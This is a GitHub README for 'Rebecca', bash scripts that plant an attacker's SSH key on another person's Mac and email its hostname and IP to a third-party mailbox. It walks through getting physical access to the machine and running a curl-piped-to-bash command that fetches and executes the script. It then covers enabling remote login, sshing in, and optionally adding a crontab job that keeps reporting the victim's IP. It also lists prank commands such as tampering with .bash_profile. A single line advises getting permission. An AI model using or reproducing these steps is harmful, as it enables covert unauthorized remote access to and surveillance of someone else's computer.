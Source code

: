 # Rebecca
Rebecca gives authorized ssh access to another user's mac PC.

**_I HIGHLY RECOMMEND GETTING PERMISSION FROM THE USER FIRST_**

Rebecca consist of two scripts, one to add rsa public key into the authorized_keys of the user's mac PC and email relevant information for ssh to a third party mailbox. The other to remove rsa public key from the authorized_keys of the user's mac PC.

## Why Rebecca was created?
Rebecca was created for fun :smirk:.

With ssh access, one can make a mac talk to the user, launch random browsers, sleep the mac PC, etc. Some interesting commands to play with:
```
say -v veena hello world
open "http://google.com"
pmset sleepnow
echo "alias ls='say -v veena hello, why are you touching me'" >> ~/.bash_profile
```

## How to use Rebecca?
Before using Rebecca, there are a few configurations to make:
1. you will want to clone this to your own github respository
2. you will want to create a rsa key pair if you don't have one
3. change the rsa public key in rebecca.sh to your own rsa public key (add your own identifier at the end)
4. change the third party mailbox in rebecca.sh to your own mailbox
5. change identifier in purge.sh to your identifier otherwise purge.sh will not work

Steps to gain access:
1. get physical access of a person's mac PC
2. open terminal and run the bash command that links to rebecca.sh in repository, e.g.
* `bash <(curl -s https://raw.githubusercontent.com/Milleus/rebecca/master/rebecca.sh)`
3. turn on remote login sharing
4. check mailbox for hostname and ip address
5. ssh in with the hostname and ip address, e.g.
* `ssh -i private_rsa_key_file hostname@192.168.123.123`

To remove from user's mac PC:
1. open terminal and run the bash command that links to purge.sh in repository, e.g.
* `bash <(curl -s https://raw.githubusercontent.com/Milleus/rebecca/master/purge.sh)`

## Possible improvements
Rebecca relies on the ip address of the user's PC. In the event where the user is assigned another ip address, it will be impossible to ssh in. A solution to this problem would be to set up a scheduled job on the user's PC to send out its ip address in an email (crontabs?). There is currently no intention to further improve rebecca as this is only an experimental project.

## Credits
Thanks to Ryan Tan and Ken Chuan for this interesting idea and guidance, as well as all who have given me permission to experiment on their laptops :grin:.
